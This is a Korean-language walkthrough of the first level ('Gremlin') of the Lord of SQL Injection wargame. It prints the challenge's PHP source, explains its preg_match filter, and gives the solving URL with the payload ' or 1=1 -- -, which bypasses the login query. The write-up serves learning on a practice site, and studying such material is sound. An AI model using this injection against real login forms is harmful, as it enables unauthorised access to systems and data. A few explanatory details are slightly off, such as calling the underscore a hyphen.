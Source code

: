 # Lord of SQL Injection No.1 - Gremlin
## 문제 출제 의도
1. SQL Injection의 이해여부를 확인.
2. 가장 SQL Injection을 실행 가능한지 확인.
## 소스 코드 분석
+ 소스코드  
Gremlin의 소스코드는 다음과 같다.
    ~~~
    <?php  
        include "./config.php";  
        login_chk();  
        dbconnect();  
        if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");// do not try to attack another table, database!  
        if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
        $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";  
        echo "<hr>query : <strong>{$query}</strong><hr><br>";
        $result = @mysql_fetch_array(mysql_query($query));
        if($result['id']) solve("gremlin");
        highlight_file(__FILE__);
    ?>
    ~~~

+ 소스 코드 분석
    - include문
        * include문은 특정 파일을 적용시킨다.
        * php의 include를 모른다면 다음 문서를 참고하자.
        * <a href = "http://php.net/manual/kr/function.include.php">PHP: include - Manual</a>
    * 사용자 정의 함수
        * login_chk();라는 함수는 로그인상태를 확인하는 함수라고 추정 가능하다.  
        * dbconnect();라는 함수는 데이터베이스와 연동하는 함수라고 추정 가능하다. 
    - 라이브러리 함수
        * preg_match()함수
            1. pregmatch함수는 다음과 같은 형식을 취한다.
            
    - if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!    
    prob, hyphon(-), period(.), parenthesis((,))등이 Get방식으로 입력받은 id에 있으면 No Hack이 출력되는 것을 알 수 있다.
    - if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
    prob, hyphon(-), period(.), parenthesis((,))등이 Get방식으로 입력받은 비밀번호에 있으면 No Hack이 출력되는 것을 알 수 있다.


    - **preg_match**
    1. php의 preg_match 함수에 대해 잘 모르겠다면 다음 링크를 참고하자.
    2. <a href ="http://php.net/manual/kr/function.preg-match.php">PHP: preg_match - Manual</a>
    ~~~
    int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
    ~~~  
    - pattern = 찾는값
    - subject = 값을 찾을 문자열
    - array &$matches = 존재할 경우 매치되는 문자열이 해당 배열의 0번지에 할당됨.
    - flag = 추가 옵션
    - offset = 처음 검색을 시작할 다른 위치를 지정할 수 있다.(바이트 단위)
    - preg_match 함수는 반환값으로 0 또는 1을 반환하는데 매치된 값이 있다면 1을 없다면 0 을 반환한다.
    - 따라서 /prob|_|\.|\(\)와 $_GET['id']또는 $_GET['ps']즉 입력 받은 값과 비교한다. 
    - 따라서 입력받은 아이디와 비밀번호에 prob, _ , . , ( , )중 하나라도 들어있으면 No Hack ~_~이 뜨고 문제 풀이에 실패한다.  
    ~~~
    $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));
    if($result['id']) solve("gremlin");
    ~~~
    - $query = "select id from prob_gremlin;  
    데이터 베이스의 테이블중 prob_pro_gremlin 이라는 테이블의 데이터중 id에 해당하는 부분만 선택한다. 

    - where id='{$_GET[id]}' and pw='{$_GET[pw]}'"  
    id와 password가 입력값인 줄을 선택한다.
## 문제 해결
+ 풀이 방법 <hr>
    <p style ="font-size:20px;">WHERE 조건절 무력화</p>

    Get 방식으로 id,password를 받기 때문에 URL 다음에 다음과 같이 쿼리 스트링을 추가하면 된다. 
    ~~~
    http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
    ~~~  

    - 아이디를 비워두면 어떤 유효값도 where에 걸리지 않는다 따라서 그 뒤에 or 1=1 을 넣어 항상 참이 되게 만든다
    - 이후 password를 무시하기 위해 나머지를 주석처리 해준다. -- -
    - 따라서 결국 다음과 같은 쿼리문이 전송되어지는 것이다.
    ~~~
    select id from prob_gremlin where id='' or 1=1 -- -' and pw=''
    ~~~ 